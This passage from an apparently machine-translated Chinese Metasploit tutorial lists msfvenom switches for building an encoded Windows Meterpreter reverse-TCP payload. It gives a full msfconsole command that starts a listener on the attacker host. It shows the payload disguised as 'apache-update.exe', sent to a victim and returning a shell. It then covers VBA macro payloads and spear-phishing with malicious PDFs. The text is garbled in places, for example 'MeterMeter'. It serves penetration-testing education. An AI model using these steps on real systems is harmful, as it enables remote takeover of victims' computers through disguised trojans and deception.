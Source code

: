 | **开关** | **说明** |
| `-a x86` | 这里，生成的有效负载将在 x86 体系结构上运行 |
| `--platform windows` | 这里，生成的有效负载是针对 Windows 平台的 |
| `-p windows/meterpreter/reverse_tcp` | 这里，有效负载是带有反向 TCP 的 MeterMeter |
| `LHOST= 192.168.44.134` | 此处，攻击者系统的 IP 地址为`192.168.44.134` |
| `LPORT= 8080` | 此处，攻击者系统上监听的端口号为`8080` |
| `-e x86/shikata_ga_nai` | 这里，要使用的有效载荷编码器是`shikata_ga_nai` |
| `-f exe` | 这里，有效载荷的输出格式为`exe` |
| `-o /root/Desktop/apache-update.exe` | 这是保存生成的有效负载的路径 |

一旦我们生成了一个负载，我们需要设置一个侦听器，一旦负载在我们的目标系统上执行，它将接受反向连接。以下命令将在端口`8080`上的 IP 地址`192.168.44.134`上启动 MeterMeter 侦听器：

```
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.44.134; set LPORT 8080; run; exit -y"
```

![](assets/33ca48c7-607c-4a4c-8fe6-a4afc08cb1dd.jpg)

现在，我们已经将负载伪装成 Apache 更新发送给受害者。受害者需要执行它才能完成攻击：

![](assets/6643e192-a277-4a72-aaa3-b9b42fcb82c4.jpg)

一旦受害者执行了死刑；`apache-update.exe`；文件中，我们将在前面设置的侦听器上返回一个活动的 MeterMeter 会话（如以下屏幕截图所示）：

![](assets/f916fa23-1dde-4369-95b4-842b70cf2824.jpg)

另一个有趣的有效负载格式是 VBA。如以下屏幕截图所示，以 VBA 格式生成的有效负载可以嵌入任何 Word/Excel 文档中的宏中：

![](assets/2f31a5d5-5d73-4841-b5ab-c64bdbce4c64.jpg)

# 元 sploit 社会工程

社会工程是操纵人类行为以绕过目标系统安全控制的一门艺术。让我们以一个遵循非常严格的安全实践的组织为例。所有系统都经过加固和修补。部署了最新的安全软件。从技术上讲，攻击者很难发现并利用任何漏洞进行攻击。但是，攻击者设法与该组织的网络管理员成为朋友，然后欺骗他，使其泄露管理员凭据。这是一个典型的例子，其中人类始终是安全链中最薄弱的环节。

默认情况下，Kali Linux 有一个强大的社会工程工具，它与 Metasploit 无缝集成，以发起有针对性的攻击。在 Kali Linux 中，社会工程工具包位于：；开发工具|；社会工程工具包。

# 生成恶意 PDF

打开社会工程工具包并选择第一个选项 Spear Phishing 攻击向量，如以下屏幕截图所示；然后选择第二个选项创建文件格式有效负载：

![](assets/49972b6a-c57b-46be-a29d-f6d77c3297dc.jpg)
